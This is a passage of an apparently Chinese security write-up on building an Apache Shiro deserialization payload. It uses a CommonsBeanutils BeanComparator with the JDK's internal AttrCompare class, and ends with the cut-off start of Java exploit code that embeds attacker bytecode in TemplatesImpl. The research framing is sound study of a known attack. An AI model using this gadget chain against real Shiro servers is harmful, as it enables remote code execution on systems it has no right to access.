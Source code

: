```java
    }
```

`compare`方法是一个有参方法，所以在调用方法时并不能直接传入两个String类型或者Object类型。

![11](https://img-blog.csdnimg.cn/f7e925b667bd4b979c760313a2e8b6e8.png)

然而Attr是一个接口，不能直接实例化，只能找实现类。这里我使用的是`com\sun\org\apache\xerces\internal\dom\AttrNSImpl.java`类。

![image-20210614104831362](https://gitee.com/samny/images/raw/master/summersec//31u48er31ec/31u48er31ec.png)

```
        AttrCompare attrCompare = new AttrCompare();
        AttrNSImpl attrNS = new AttrNSImpl();
        attrNS.setValues(new CoreDocumentImpl(),"1","1","1");
        attrCompare.compare(attrNS,attrNS);
```

最终利用代码：

```
package summersec.shirodemo.Payload;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xerces.internal.dom.AttrNSImpl;
import com.sun.org.apache.xerces.internal.dom.CoreDocumentImpl;
import com.sun.org.apache.xml.internal.security.c14n.helper.AttrCompare;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;



public class CommonsBeanutilsAttrCompare {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        AttrNSImpl attrNS1 = new AttrNSImpl(new CoreDocumentImpl(),"1","1","1");

        final BeanComparator comparator = new BeanComparator(null, new AttrCompare());
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add(attrNS1);
        queue.add(attrNS1);


        setFieldValue(comparator, "property", "outputProperties");
```